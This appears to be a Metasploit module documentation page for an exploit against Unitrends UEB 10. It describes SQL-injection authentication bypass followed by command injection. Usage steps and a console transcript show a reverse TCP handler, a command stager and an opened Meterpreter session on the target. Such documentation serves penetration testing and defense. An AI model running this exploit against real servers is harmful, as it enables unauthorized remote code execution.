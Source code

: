 ## Vulnerable Application

  Unitrends UEB 10 http api/storage remote root

  This exploit leverages a sqli vulnerability for authentication bypass,
  together with command injection for subsequent RCE.

## Verification Steps

  1. ```use exploit/linux/http/ueb10_api_systems ```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### UEB 10.0 on CentOS 6.5

```
msf > use exploit/linux/http/ueb10_api_systems
msf exploit(linux/http/ueb10_api_systems) > set lhost 15.0.0.177
lhost => 15.0.0.177
msf exploit(linux/http/ueb10_api_systems) > set rhost 10.20.1.202
rhost => 10.20.1.202
msf exploit(linux/http/ueb10_api_systems) > exploit

[*] Started reverse TCP handler on 15.0.0.177:4444
[*] 10.20.1.202:443 - pwn'ng ueb 10....
[*] Command Stager progress -  17.25% done (164/951 bytes)
[*] Command Stager progress -  34.17% done (325/951 bytes)
[*] Command Stager progress -  49.84% done (474/951 bytes)
[*] Command Stager progress -  65.51% done (623/951 bytes)
[*] Command Stager progress -  80.86% done (769/951 bytes)
[*] Command Stager progress -  96.85% done (921/951 bytes)
[*] Command Stager progress - 112.30% done (1068/951 bytes)
[*] Sending stage (857352 bytes) to 10.20.1.202
[*] Command Stager progress - 124.92% done (1188/951 bytes)
[*] Meterpreter session 4 opened (15.0.0.177:4444 -> 10.20.1.202:43475) at 2018-04-27 16:04:42 -0400
[*] Command Stager progress - 126.60% done (1204/951 bytes)

meterpreter > getuid
Server username: uid=48, gid=48, euid=48, egid=48
```
